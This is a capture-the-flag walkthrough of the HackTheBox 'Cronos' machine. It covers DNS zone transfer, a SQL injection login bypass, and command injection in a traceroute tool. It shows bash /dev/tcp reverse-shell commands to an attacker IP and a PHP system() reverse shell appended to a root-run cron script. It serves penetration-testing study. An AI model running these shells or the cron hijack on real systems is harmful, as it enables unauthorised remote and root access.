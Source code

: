 # HackTheBox Cronos

> Author: Hades

> [*Scripting here*](https://github.com/leecybersec/scripting)

![](images/1.png)

## Information Gathering

### Openning Services

```
### Port Scanning ############################
nmap -sS -p- --min-rate 1000 10.10.10.13 | grep ^[0-9] | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//

[+] Openning ports: 22,53,80

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.13 -p22,53,80
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-05 09:12 +07
Nmap scan report for 10.10.10.13
Host is up (0.26s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.82 seconds
```

### DNS Server

At port 53, I used `nslooup` to enum ip 10.10.10.13 and got the name server `ns1.cronos.htb`

```
### DNS Enumeration (53) ############################
nslookup 10.10.10.13 10.10.10.13
13.10.10.10.in-addr.arpa        name = ns1.cronos.htb.
```

Add domain `ns1.cronos.htb` and `cronos.htb` to file `/etc/hosts` and `dig` enum.

```
┌──(Hades㉿10.10.14.5)-[2.0:21.4]~/scripting
└─$ dig axfr cronos.htb @10.10.10.13

; <<>> DiG 9.16.13-Debian <<>> axfr cronos.htb @10.10.10.13
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
<snip>
```

### Laravel Web App

There is defaul Apache page at port 80, but after add domain `cronos.htb` and go to it, I got a web application power by Laravel

![](images/2.png)

Add `admin.cronos.htb`, `www.cronos.htb` to file `/etc/hosts`


```
10.10.10.13 cronos.htb admin.cronos.htb www.cronos.htb ns1.cronos.htb
```

![](images/3.png)

## Foothold

### SQL Injection

At admin page, I try some payload SQLi to bypass authentication and I got it.

![](images/4.png)

### Command Injection

Admin page is Net Tool support `traceroute` server, but in the command box, I inject command `ls` and got the result.

![](images/5.png)

Inject command `bash -c 'sh -i >& /dev/tcp/10.10.14.5/443 0>&1'` and got the remote code execution.

```
┌──(Hades㉿10.10.14.5)-[2.9:23.4]~/walkthrough/hackthebox/cronos
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.13] 53806
sh: 0: can't access tty; job control turned off
$ id    
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Privilege Escalation

### Crontab File overwrite

Add file `/etc/crontab`, I know that the system running file `/var/www/laravel/artisan` with php command as root.

```
www-data@cronos:/var/www$ cat /etc/crontab
# /etc/crontab: system-wide crontab
<snip>
* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

Check permission file `/var/www/laravel/artisan`, This file owned by www-data, can easy to modify it.

```
www-data@cronos:/var/www$ ls -lh /var/www/laravel/artisan
-rwxr-xr-x 1 www-data www-data 1.7K Apr  9  2017 /var/www/laravel/artisan
```

At simple system command to execute shell code in `/var/www/laravel/artisan`.

```
echo system("bash -c 'sh -i >& /dev/tcp/10.10.14.5/443 0>&1'"); >> /var/www/laravel/artisan
```

Waiting 1 minute, I have root shell at my listener.

```
┌──(Hades㉿10.10.14.5)-[2.9:25.2]~/priescal/PEASS/linPEAS
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.13] 53762
sh: 0: can't access tty; job control turned off
# whoami
root
```